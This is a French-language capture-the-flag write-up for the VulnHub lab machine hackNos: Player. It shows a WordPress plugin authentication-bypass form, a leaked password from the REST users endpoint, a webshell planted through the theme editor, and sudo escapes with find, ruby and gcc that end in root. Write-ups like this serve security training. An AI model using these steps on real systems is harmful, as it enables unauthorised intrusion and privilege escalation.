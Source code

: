 ```yaml
---
title: "Solution du CTF hackNos: Player de VulnHub"
tags: [CTF,VulnHub]
---
```


[hackNos: Player](https://vulnhub.com/entry/hacknos-player-v11,459/) annonçait de l'énumération à faire. En fait il fallait surtout être attentif. Pour le reste on a affaire à une succession de GTFObins.

## Hidden in plain sight

Le serveur expose un MariaDB ainsi qu'un serveur Apache qui livre sa page par défaut.

```
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
```

Après beaucoup d'énumération qui n'a mené nulle part, j'ai regardé au code source de la page HTML de l'Apache et j'ai remarqué des particularités que j'aurais tout aussi bien pû voir directement :

```html
        <div class="content_section_text">
            <p>
                By default, Debian does not allow access through the web browser to
                <em>any</em> file apart of those located in <tt>/var/www</tt>,
                <a href="https://www.hacknos.com" rel="follow">public_html</a>
                directories (when enabled) and <tt>/usr/share</tt> (for web
                applications). If your site is using a web document root
                located elsewhere (such as in <tt>/srv</tt>) you may need to whitelist your
                document root directory in <tt>/etc/apache2/apache2.conf</tt>.
            </p>
            <p>
                The default Debian document root is <tt>/var/www/html/g@web</tt>. You
                can make your own virtual hosts under /var/www/mini@web. This is different
                to previous releases which provides better security out of the box.
            </p>
        </div>
```

Outre les liens qui ont été modifiés on voir certains mots avec une arobase qui n'ont rien d'officiel.

Je me rends alors sur le path `/g@web/` et je découvre un Wordpress.

En regardant le code HTML je vois qu'un plugin est présent :

```html
<script src='http://192.168.56.221/g@web/wp-content/plugins/wp-support-plus-responsive-ticket-system/asset/js/bootstrap/js/bootstrap.min.js?version=7.1.3&#038;ver=5.3.2'></script>
```

Cette version est vulnérable et il existe deux exploits. Le premier pour une faille SQL :

[WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection - PHP webapps Exploit](https://www.exploit-db.com/exploits/40939)

L'autre est marqué comme une escalade de privilèges, mais en lisant la description, il s'agit en réalité d'un bypass d'authentification.

[WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation - PHP webapps Exploit](https://www.exploit-db.com/exploits/41006)

Pour parvenir à nos fins, il nous faut un nom d'utilisateur. Je pourrais lancer `wpscan` mais je sais qu'il existe une URL REST qui peut révéler les utilisateurs et que `Nuclei` détecte :

```
[CVE-2017-5487:usernames] [http] [medium] http://192.168.56.221/g@web/?rest_route=/wp/v2/users/ [wp-local]
```

Bonne surprise, car on trouve en plus ce qui semble être un mot de passe !

```console
$ curl -s http://192.168.56.221/g@web/?rest_route=/wp/v2/users/ | python3 -m json.tool
[
    {
        "id": 1,
        "name": "wp-local",
        "url": "https://www.hacknos.com",
        "description": "you can upgrade you shell using hackNos@9012!!",
        "link": "http://192.168.56.221/g@web/index.php/author/wp-local/",
        "slug": "wp-local",
        "avatar_urls": {
            "24": "http://2.gravatar.com/avatar/e57bc7a4648b27195f1d73af69da30da?s=24&d=mm&r=g",
            "48": "http://2.gravatar.com/avatar/e57bc7a4648b27195f1d73af69da30da?s=48&d=mm&r=g",
            "96": "http://2.gravatar.com/avatar/e57bc7a4648b27195f1d73af69da30da?s=96&d=mm&r=g"
        },
        "meta": [],
        "_links": {
            "self": [
                {
                    "href": "http://192.168.56.221/g@web/index.php/wp-json/wp/v2/users/1"
                }
            ],
            "collection": [
                {
                    "href": "http://192.168.56.221/g@web/index.php/wp-json/wp/v2/users"
                }
            ]
        }
    }
]
```

Je récupère le PoC pour le bypass et je le modifie :

```html
<form method="post" action="http://192.168.56.221/g@web/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="wp-local">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

J'ouvre la page HTML dans mon navigateur, je soumets le formulaire, puis je me rend sur `/wp-admin`, je suis connecté !

## Get the fuck ouuuuuuuut!

La suite est très classique : éditeur de thème, modification du `404.php` pour disposer d'un webshell, récupération de `reverse-ssh` via `wget`, exécution et on a plus qu'à mettre notre brosse à dent dans la salle de bain.

Je relève la présence de trois utilisateurs :

```
hunter:x:1000:1000:hunter,,,:/home/hunter:/bin/bash
security:x:1001:1001:Security,,,,Audit:/home/security:/bin/bash
hackNos-boat:x:1002:1002:crawler,,,,web directory crawler:/home/hackNos-boat:/bin/bash
```

Le mot de passe `hackNos@9012!!` récupéré précédemment est accepté pour le compte `security`.

```
security@hacknos:~$ sudo -l
Matching Defaults entries for security on hacknos:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User security may run the following commands on hacknos:
    (hacknos-boat) NOPASSWD: /usr/bin/find
```

L'utilisateur peut exécuter `find` avec le compte `hackNos-boat`. L'option `-exec` nous tend les bras.

```console
security@hacknos:~$ sudo -u hackNos-boat /usr/bin/find /dev/ -name null -exec bash \;
hackNos-boat@hacknos:/home/security$ id
uid=1002(hackNos-boat) gid=1002(hackNos-boat) groups=1002(hackNos-boat)
hackNos-boat@hacknos:/home/security$ sudo -l
Matching Defaults entries for hackNos-boat on hacknos:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hackNos-boat may run the following commands on hacknos:
    (hunter) NOPASSWD: /usr/bin/ruby
```

Cette fois il faut utiliser `ruby`. On trouve facilement tous les GTFObins sur [le site du même nom](https://gtfobins.github.io/).

```console
hackNos-boat@hacknos:/home/security$ sudo -u hunter /usr/bin/ruby -e 'exec "/bin/bash"'
hunter@hacknos:/home/security$ sudo -l
Matching Defaults entries for hunter on hacknos:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hunter may run the following commands on hacknos:
    (ALL) NOPASSWD: /usr/bin/gcc
```

Et finalement pour `gcc` :

```console
hunter@hacknos:/home/security$ sudo /usr/bin/gcc -wrapper /bin/sh,-s .
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
    __                     __      _   __               
   / /_   ____ _  _____   / /__   / | / /  ____    _____
  / __ \ / __ `/ / ___/  / //_/  /  |/ /  / __ \  / ___/
 / / / // /_/ / / /__   / ,<    / /|  /  / /_/ / (__  ) 
/_/ /_/ \__,_/  \___/  /_/|_|  /_/ |_/   \____/ /____/  
                                                        

MD5HASH: bae11ce4f67af91fa58576c1da2aad4b

Author: Rahul Gehlaut

Website: www.hackNos.com

Linkedin: rahulgehlaut

Tweet me: rahul_gehlaut
```
